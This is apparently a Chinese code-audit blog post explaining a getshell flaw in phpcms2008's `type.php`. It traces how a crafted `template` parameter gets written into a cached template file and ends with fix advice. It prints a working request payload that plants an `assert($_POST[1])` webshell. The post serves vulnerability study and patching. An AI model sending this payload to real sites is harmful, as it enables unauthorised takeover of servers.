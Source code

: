 ```yaml
---
title: "Phpcms2008 Type.php Getshell"
date: 2018-12-16T19:21:52+08:00
categories: ['代码审计']
tags: ['getshell','php']
---
```


phpcms2008老版本`type.php`存在代码注入可直接getshell。不过版本过低，使用人数较少，影响范围较小，当作拓展思路不错。

<!--more-->

## 漏洞简介

当攻击者向装有phpcms2008版本程序的网站发送如下payload时

```php
/type.php?template=tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss
```

那么`@unlink(_FILE_);assert($_POST[1]);`这句话会被写入`rss.tpl.php`，即getshell。

## 漏洞分析

![type.php](https://y4er.com/img/uploads/20190509166393.jpg "type.php")

在`type.php`中`$template`用户可控，并且下方传入了`template()`函数，这个函数是在`/include/global.func.php`定义的，跟进下

![global.func.php](https://y4er.com/img/uploads/20190509165373.jpg "global.func.php")

可以看到执行了`template_compile()`函数，继续跟进，这个函数在`/include/template.func.php`中

![template.func.php](https://y4er.com/img/uploads/20190509166561.jpg "template.func.php")

在这个方法中，`$template`变量同时被用于`$compiledtplfile`中文件路径的生成，和`$content`中文件内容的生成。

而前文所述的攻击payload将`$template`变量被设置为如下的值

```php
tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss
```

所以在`template_compile()`方法中，调用`file_put_contents()`函数时的第一个参数就被写成了`data/cache_template/phpcms_tag_(){};@unlink(_FILE_);assert($_POST[1]);{//../rss.tpl.php`，这将被php解析成`data/cache_template/rss.tpl.php`。

最终，`@unlink(_FILE_);assert($_POST[1]);`将被写入该文件。

## 修复建议

手动过滤`$template`参数，避免输入`{` `(`这类字符被当作路径和脚本内容处理。

升级才是正道，那么老的版本了还有人在用，是有多懒。

## 参考链接

https://xz.aliyun.com/t/3454

